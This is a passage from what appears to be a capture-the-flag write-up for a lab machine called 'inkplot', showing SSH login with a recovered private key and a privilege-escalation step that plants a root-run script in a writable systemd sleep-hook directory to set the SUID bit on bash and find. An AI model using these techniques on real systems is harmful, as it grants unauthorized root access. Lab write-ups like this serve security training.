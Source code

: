Now lets have the pauline shell →

```bash
╭─leila@inkplot ~pauline 
╰─$ chmod 600 /tmp/id_rsa                       
╭─leila@inkplot ~pauline 
╰─$ ssh pauline@localhost -i /tmp/id_rsa                                       
Auto-standby now activated after 2 min of inactivity
Linux inkplot 6.1.0-10-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.38-1 (2023-07-14) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
╭─pauline@inkplot ~ 
╰─$ whoami
pauline
╭─pauline@inkplot ~ 
╰─$ id
uid=1000(pauline) gid=1000(pauline) groups=1000(pauline),100(users),1002(admin)
╭─pauline@inkplot ~ 
╰─$
```
{: .nolineno}
{: .nolineno}

I noticed the group as admin so lets see →

```bash
╭─pauline@inkplot ~ 
╰─$ find / -group admin 2>/dev/null    
/usr/lib/systemd/system-sleep
```
{: .nolineno}
{: .nolineno}

So systemd commands use to run at start of the shell or as a cron so lets add a script file over here so that ot can trigger that file →

```bash
╭─pauline@inkplot /usr/lib/systemd/system-sleep 
╰─$ nano script                                                                    1 ↵
╭─pauline@inkplot /usr/lib/systemd/system-sleep 
╰─$ cat script                       
#!/bin/bash

chmod +s /bin/bash

chmod +s /bin/find
╭─pauline@inkplot /usr/lib/systemd/system-sleep 
╰─$ ls -al                          
total 20
drwxrwx---  2 root    admin    4096 Oct  8 18:17 .
drwxr-xr-x 14 root    root    12288 Jul 28 17:55 ..
-rwxr-xr-x  1 pauline pauline   104 Oct  8 18:17 script
╭─pauline@inkplot /usr/lib/systemd/system-sleep 
╰─$ ls -al /bin/bash
-rwxr-xr-x 1 root root 1265648 Apr 23 23:23 /bin/bash
╭─pauline@inkplot /usr/lib/systemd/system-sleep 
╰─$ ls -al /bin/find 
-rwxr-xr-x 1 root root 224848 Jan  8  2023 /bin/find
╭─pauline@inkplot /usr/lib/systemd/system-sleep 
╰─$
```
{: .nolineno}